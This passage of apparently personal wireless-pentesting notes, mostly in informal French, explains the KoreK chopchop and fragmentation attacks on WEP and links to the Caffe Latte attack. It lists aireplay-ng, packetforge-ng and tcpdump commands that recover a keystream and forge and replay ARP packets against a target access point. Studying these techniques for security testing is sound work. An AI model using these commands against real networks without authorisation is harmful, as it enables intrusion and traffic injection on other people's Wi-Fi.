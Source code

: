                          - R6 to R8 are computed by reversing one crc step based on the value of X. There's a correspondence among I2-I0 and J3-J1 because crc shifts them back but D5 “pushes” them forward again. They are not necessarily keeping the same values, but their difference depends only on X, which we have guessed.
                         - J0 depends only on X. K9 = S9 + J0. We have guessed the last message byte and the last byte of keystream.
                         - We will guess X by trial and error. The access point must discard invalid frames and *help us* in guessing the value of X.
                         - By doing this, we have found a valid frame 1 byte shorter than original one, and we have guessed one byte of keystream. This process can be induced to get the whole keystream.

        - On va donc chercher des paquets les plus petits possibles car c'est plus facile pour la déduction du plaintext.
            
        - Commandes :
            
            - `aireplay-ng -4 -h MAC_SOURCE -b AP_MAC wlan0mon` Comme d'hab, la mac source c'est soit celle d'un client associé, soit une fake authentication.
            - Si jamais t'as la flemme de faire une fake authentication, y'a une autre méthode qui fonctionnent sur les AP vulnérable. En gros pour l'adresse source, ca sera une adresse random. Si jamais l'AP envoie un packet deauth, c'est que le packet source est valide. Et si il est valide, c'est qu'un byte a donc été déterminé :
            - `aireplay-ng -4 -b AP_MAC wlan0mon`
            - Après avoir trouvé la keystream, on peut l'utiliser pour créer des paquets tel que des packets ARP :
            - `aireplay-ng -4 -h SOURCE_MAC wlan0mon` On décrypte d'abord un packet
            - `tcpdump -s 0 -n -e -r replay_dec.cap`Pour récupérer une adresse ip
            - `packetforge-ng -0 -a AP_MAC -h SOURCE_MAC -k DEST_IP -l SOURCE_IP -y replay_dec.xor -w arp.cap` Où l'ip dest c'est l'ip qu'on a trouvé juste avant, l'ip source on s'en fout tu met ce que tu veux, le fichier xor c'est le fichier avec la keystream et arp.cap c'est l'output
            - `aireplay-ng -2 -r arp.cap wlan0mon` Pour replay
    - **Fragmentation Attacks :**
        
        - WEP :
            - C'est une autre technique qui peut obtenir 1500 bytes de PRGA (partie de RC4 qui génère la keystream). Et donc comme KoreK chopchop, on peut générer des paquets en dépit d'avoir la clé wep. Pour le fonctionnement un peu plus détaillé : [Final-Nail-in-WEPs-Coffin.slides.pdf](file:///home/wpkaliuser/.config/joplin-desktop/resources/38973ef6b8c24ffda1025635a682cfbc.pdf "file:///home/wpkaliuser/.config/joplin-desktop/resources/38973ef6b8c24ffda1025635a682cfbc.pdf")
            - Commandes :
                - `aireplay-ng -5 -b AP_MAC -h SOURCE_MAC wlan0mon`
                - On obtient la keystream qu'on pourra utiliser avec packetforge-ng pour générer des packets comme pour la KoveK chopchop :
                - `packetforge-ng -0 -a AP_MAC -h SOURCE_MAC -k DEST_IP -l SOURCE_IP -y replay_dec.cap -w arp.cap`
                - Cette attaque envoie beaucoup de packet et aucun ne doit être perdu pour que ca marche. Y'a pas mal d'info et de tuto sur cette attaque là bas je crois [https://www.aircrack-ng.org/doku.php?id=tutorial](https://www.aircrack-ng.org/doku.php?id=tutorial "https://www.aircrack-ng.org/doku.php?id=tutorial") Pour la séléction de paquets au début, faut s'adapter donc si tu vois un paquet chiant qui marche pas, tu le reprend pas gros con.
        - WPA/WPA2/WPA3 :
            - Fragattack
    - **Cafe latte Attacks :**
        
        - [http://www.esecurityplanet.com/trends](http://www.esecurityplanet.com/trends%20/article.php/3716656/The-Caffe-Latte-Attack-How-It-Worksand-How-to-Block-It.htm "http://www.esecurityplanet.com/trends%20/article.php/3716656/The-Caffe-Latte-Attack-How-It-Worksand-How-to-Block-It.htm")  
            [/article.php/3716656/The-Caffe-Latte-Attack-How-It-Worksand-How-to-Block-It.htm](http://www.esecurityplanet.com/trends%20/article.php/3716656/The-Caffe-Latte-Attack-How-It-Worksand-How-to-Block-It.htm "http://www.esecurityplanet.com/trends%20/article.php/3716656/The-Caffe-Latte-Attack-How-It-Worksand-How-to-Block-It.htm")
            